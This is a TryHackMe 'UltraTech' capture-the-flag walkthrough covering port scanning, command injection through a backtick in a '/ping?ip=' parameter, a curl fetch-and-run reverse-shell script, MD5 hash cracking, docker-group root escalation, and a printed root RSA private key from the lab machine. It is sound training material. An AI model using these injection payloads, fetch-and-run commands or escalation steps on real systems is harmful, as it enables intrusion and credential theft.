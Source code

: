 # Tryhackme.com Room : UltraTech

`https://tryhackme.com/room/ultratech1`



## Instance

```
export IP='10.10.141.73'
```

## Nmap

```
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```



## Initial foothold

Looking at `:8081/` we simply get

```
UltraTech API v0.1.3
```

We `gobuster` the website and find 

```
/auth
```

Which gives us:

```
You must specify a login and a password
```

We can try to login using `get` parameters :

````
/auth?login=admin&password=admin
````

Obviously without success.



We take a look at the `ftp` server on port `21`.

We try `anonymous` login but it doesn't work.

Let's scan all ports on the machine.

This was taking quite a long time, I've found a way to speedup the port scan.

Although it must be noted that it make the scan much easier to detect in real life and that it might give false positives.

```
nmap --min-rate 4500 --max-rtt-timeout 1500ms -p- -v 10.10.141.73
```

We find the port `31331` which we analyse further with :

```
nmap -sC -sV -p 31331 -v 10.10.141.73
```

```
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 15C1B7515662078EF4B5C724E2927A96
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
```

So this is another website.

We `gobuster` it and find :

```
/partners.html (Status: 200)
/images (Status: 301)
/index.html (Status: 200)
/css (Status: 301)
/js (Status: 301)
/javascript (Status: 301)
/what.html (Status: 200)
/robots.txt (Status: 200)
```

`/robots.txt` contains :

```
Allow: *
User-Agent: *
Sitemap: /utech_sitemap.txt
```

and `utech_sitemap.txt` contains :

```
/
/index.html
/what.html
/partners.html
```

Nothing new here

`/partners.html` show a login form which do a call on `:8081/auth` to try to connect.

Looking at the javascript in the page, we find an interesting method which call

```
:8081/ping?ip=${window.location.hostname}
```

Interesting, maybe we can inject some commands in there ?

We can ping ouselves with `:8081/ping?ip=10.6.32.20`

We get this response :

```
PING 10.6.32.20 (10.6.32.20) 56(84) bytes of data. 64 bytes from 10.6.32.20: icmp_seq=1 ttl=61 time=92.7 ms --- 10.6.32.20 ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 92.746/92.746/92.746/0.000 ms 
```

Which hint that this is running the `ping` shell commands.

We can get shell execution using 

```
:8081/ping?ip=`curl http://10.6.32.20:8000`
```

Time to get a reverse shell.

Seems like some like some characters are replaced/escaped.

The easiest way to get a shell is just to create a script and `curl` it from the box

```
:8081/ping?ip=`curl http://10.6.32.20:8000/rev2.sh > /tmp/rev2.sh`
```

Then

```
:8081/ping?ip=`sh /tmp/rev2.sh`
```

And we got a shell as `www`



We find an `sqlite` database in `/home/www/api/utech.db.sqlite`

We retrieve it and we find a table `users` with :

```
admin:0d0ea5111e3c1def594c1684e3b9be84
r00t:f357a0c52799563c7c7b76c1e7543a32
```

These are actually `md5` hash as we can see by looking at the code in `/home/www/api/index.js`

We simply enter the hashes on `crackstation.net` and find

```
admin:mrsheafy
r00t:n100906
```

We also see in `index.js` that if we enter the correct creds we will get :

```
Restricted area

Hey r00t, can you please have a look at the server's configuration?
The intern did it and I don't really trust him.
Thanks!

lp1
```

But let's try to `su` to `r00t` using these creds.

And yep, we are now `r00t` 

Let's look around.

I did poke around a bit but didn't find anything useful. Then I ran `linpeas` and it quickly found that we were member of the `docker` group and `var/run/docker.sock` is writable.

Then from `gtfobin` we find that we can get a shell using 

```
docker run -v /:/mnt --rm -it {IMAGE_NAME} chroot /mnt sh
```

We can list available docker images with `docker images` and we find that there is an image named `bash`



Oh well, seems like it crashed the box... not sure what happened. Can't connect via ssh anymore and the webserver is not responding.

I restarted the machine and it froze the box again...

I restarted again. Looking at the resources with `htop` we see that the resources are pretty tight. There is no swap files and the ram usage is close to 100%.

This time I used the exploit to get a shell as `www` then I killed the `node` process and was able to get `root` using

```
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```



The challenge ask for the 9 first characters of the `root` private key.

Here is the `/root/.ssh/id_pub`

```
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAuDSna2F3pO8vMOPJ4l2PwpLFqMpy1SWYaaREhio64iM65HSm
sIOfoEC+vvs9SRxy8yNBQ2bx2kLYqoZpDJOuTC4Y7VIb+3xeLjhmvtNQGofffkQA
jSMMlh1MG14fOInXKTRQF8hPBWKB38BPdlNgm7dR5PUGFWni15ucYgCGq1Utc5PP
NZVxika+pr/U0Ux4620MzJW899lDG6orIoJo739fmMyrQUjKRnp8xXBv/YezoF8D
hQaP7omtbyo0dczKGkeAVCe6ARh8woiVd2zz5SHDoeZLe1ln4KSbIL3EiMQMzOpc
jNn7oD+rqmh/ygoXL3yFRAowi+LFdkkS0gqgmwIDAQABAoIBACbTwm5Z7xQu7m2J
tiYmvoSu10cK1UWkVQn/fAojoKHF90XsaK5QMDdhLlOnNXXRr1Ecn0cLzfLJoE3h
YwcpodWg6dQsOIW740Yu0Ulr1TiiZzOANfWJ679Akag7IK2UMGwZAMDikfV6nBGD
wbwZOwXXkEWIeC3PUedMf5wQrFI0mG+mRwWFd06xl6FioC9gIpV4RaZT92nbGfoM
BWr8KszHw0t7Cp3CT2OBzL2XoMg/NWFU0iBEBg8n8fk67Y59m49xED7VgupK5Ad1
5neOFdep8rydYbFpVLw8sv96GN5tb/i5KQPC1uO64YuC5ZOyKE30jX4gjAC8rafg
o1macDECgYEA4fTHFz1uRohrRkZiTGzEp9VUPNonMyKYHi2FaSTU1Vmp6A0vbBWW
tnuyiubefzK5DyDEf2YdhEE7PJbMBjnCWQJCtOaSCz/RZ7ET9pAMvo4MvTFs3I97
eDM3HWDdrmrK1hTaOTmvbV8DM9sNqgJVsH24ztLBWRRU4gOsP4a76s0CgYEA0LK/
/kh/lkReyAurcu7F00fIn1hdTvqa8/wUYq5efHoZg8pba2j7Z8g9GVqKtMnFA0w6
t1KmELIf55zwFh3i5MmneUJo6gYSXx2AqvWsFtddLljAVKpbLBl6szq4wVejoDye
lEdFfTHlYaN2ieZADsbgAKs27/q/ZgNqZVI+CQcCgYAO3sYPcHqGZ8nviQhFEU9r
4C04B/9WbStnqQVDoynilJEK9XsueMk/Xyqj24e/BT6KkVR9MeI1ZvmYBjCNJFX2
96AeOaJY3S1RzqSKsHY2QDD0boFEjqjIg05YP5y3Ms4AgsTNyU8TOpKCYiMnEhpD
kDKOYe5Zh24Cpc07LQnG7QKBgCZ1WjYUzBY34TOCGwUiBSiLKOhcU02TluxxPpx0
v4q2wW7s4m3nubSFTOUYL0ljiT+zU3qm611WRdTbsc6RkVdR5d/NoiHGHqqSeDyI
6z6GT3CUAFVZ01VMGLVgk91lNgz4PszaWW7ZvAiDI/wDhzhx46Ob6ZLNpWm6JWgo
gLAPAoGAdCXCHyTfKI/80YMmdp/k11Wj4TQuZ6zgFtUorstRddYAGt8peW3xFqLn
MrOulVZcSUXnezTs3f8TCsH1Yk/2ue8+GmtlZe/3pHRBW0YJIAaHWg5k2I3hsdAz
bPB7E9hlrI0AconivYDzfpxfX+vovlP/DdNVub/EO7JSO+RAmqo=
-----END RSA PRIVATE KEY-----
```



The first 9 characters are :

```
MIIEogIBA
```



## Wrap up

* This was a pretty easy box, except for the part where it was super tight on ressource and it would crash when I run the docker exploit..
* Not sure if it's really because I killed the node process or just vbecause I waited for the box to stabilize (If you start the box, login into it and run `htop`, the mem usage is even higher, it goes down a little after a couple of mins)